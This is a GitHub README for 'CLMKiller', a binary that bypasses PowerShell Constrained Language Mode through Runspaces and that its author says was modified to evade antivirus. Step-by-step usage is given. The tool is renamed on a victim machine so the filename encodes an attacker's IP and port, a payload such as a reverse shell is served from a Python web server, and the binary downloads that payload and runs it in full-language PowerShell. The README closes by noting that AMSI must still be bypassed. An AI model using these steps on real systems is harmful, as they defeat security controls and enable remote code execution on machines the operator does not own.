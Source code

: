 # CLMKiller
## Decription
CLMKiller is a binary that bypasses CLM using Runspaces. I don't want to go into detail here. Actually I just adapted the code of https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/. However, I did some changes to it in order to make it harder to detect by AV.

## Usage
The arguments of CLMKiller are passed via its filename. Hence, you should rename it in order to make use of it.
The filename will be converted into a string of following format:

127_0_0_1_80_pay.exe => http://127.0.0.1/pay

The binary will then download a file called `pay` of the desired webserver and executes that command in a powrshell with FullLanguage.

## Example
Rename file on victim machine:
```
Rename-Item -Path ".\CLMKiller.exe" -NewName "192_168_20_1_80_finances" 
```
Generate a command that executes a reverse shell or other payload:
```
echo -ne 'whoami;$ExecutionContext.SessionState.LanguageMode;' > finances
```
Start webserver:
```
python3 -m http.server 80
```
Run CLMKiller:
```
.\192_168_20_1_80_finances
```

Enjoy your powershell with FullLanguage mode.
Remember that you still need to bypass AMSI. But thats your job.
